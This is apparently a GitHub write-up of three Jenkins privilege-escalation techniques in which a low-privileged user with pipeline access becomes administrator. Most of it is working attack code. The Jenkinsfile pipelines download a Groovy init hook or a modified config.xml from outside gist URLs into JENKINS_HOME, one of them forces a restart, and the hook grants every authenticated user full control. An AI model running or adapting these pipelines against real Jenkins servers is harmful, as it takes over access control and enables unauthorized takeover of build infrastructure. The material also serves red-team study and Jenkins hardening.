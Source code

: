 # Privilege Escalations

- The Matrix-based security/ Project-based Matrix Authorization Strategy is used to define authorization and scopes.
- In our privilege escalation techniques we will try to escalate our privileges to an administrator.




## Give admin access to all authenticated users by executing a groovy script - Technique 1

- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is Jenkins would need a restart after this attack.
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will wait for a restart and our low privileged user will have admin access.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

pipeline
``` Jenkinsfile
pipeline {
    agent any
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o /var/lib/jenkins/init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/476980613a3f23af11bc958f8a03fc40689987ff/HOOK.groovy
                  '''
            }
        }         
    }
}
```


## Escalate to adminstrator role through groovy init scripts - Technique 2 ( Restart using Pipeline )

- In the previous example we were dependant on the Jenkins restart by admin. 
- It is possible to initiate Jenkins restart by Jenkins Pipeline and in order to do so we need a script approval from admin.
- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is we need to run this pipeline without sandbox mode ( Uncheck in Project Configuration ```Use Groovy Sandbox``` )
- The 3rd condition is admins need to approve this scripts.

To carry out the attack
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will write another stage to Restart the Jenkins and start the job.
- Admin need to approve the scripts.
- We need to rerun the attack after the script approval and we will gain admin access after the restart.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

pipeline
```
pipeline {
    agent any
    
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o /var/lib/jenkins/init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/476980613a3f23af11bc958f8a03fc40689987ff/HOOK.groovy
                  '''
            }
        }
        stage('Restart Jenkins') {
            steps {
                script {
                    Jenkins.instance.restart()
                }
            }
        }        
    }
}
```



## Escalate to adminstrator role by modifying the config.xml file

- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is that either we need a restart or a reload of configuration data from disk.
- We will dump the config.xml
- We will modify the config.xml to add builduser as admin ``` <permission>USER:hudson.model.Hudson.Administer:builduser</permission> ```
- Next we will run a pipeline that will download and replace the config.xml with the modified xml
- From the next restart or reloading of config data, our changes will take effect.

```
pipeline{
    agent any
    stages{
        stage("Dump config.xml file"){
            steps{
                sh '''
                    cat /var/lib/jenkins/config.xml
                '''
            }
        }
        stage("Replace the modified config.xml file"){
            steps{
                sh '''
                    curl -o /var/lib/jenkins/config.xml https://gist.githubusercontent.com/dibsy/1548ae721e687cc86b9d4a95cc3bafa5/raw/2a3693b17c638f27f1be56af62d85de0309144cb/configModified.xml
                '''
            }
        }        
    }
}
```
